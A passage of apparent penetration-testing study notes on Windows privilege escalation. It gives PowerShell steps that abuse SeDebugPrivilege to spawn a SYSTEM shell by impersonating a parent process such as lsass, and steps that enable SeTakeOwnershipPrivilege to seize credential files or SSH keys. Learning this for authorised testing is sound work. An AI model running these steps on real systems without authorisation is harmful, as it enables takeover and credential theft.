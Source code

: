     # run the exploit script in reqd format
    . .\psgetsys.ps1

    ImpersonateFromParentPid -ppid 612 -command "C:\Windows\System32\cmd.exe" -cmdargs ""
    # for the -cmdargs parameter we can add whatever command should be executed in cmd

    # we can also use Get-Process cmdlet to fetch PID of a well-known process running as SYSTEM - like lsass

    # we can also check resources like "https://github.com/daem0nc0re/PrivFu"
    # for PoC scripts to exploit privileges
    ```

* SeTakeOwnershipPrivilege:

    ```ps
    whoami /priv
    # SeTakeOwnershipPrivilege is listed, but disabled
    # viewed in elevated PS console

    # we can use a PS script to enable all privileges
    # like - https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
    # and - https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1

    Import-Module .\Enable-Privilege.ps1

    .\EnableAllTokenPrivs.ps1
    
    whoami /priv
    # now it is enabled

    # now, choose a target file - it could be credentials or SSH keys
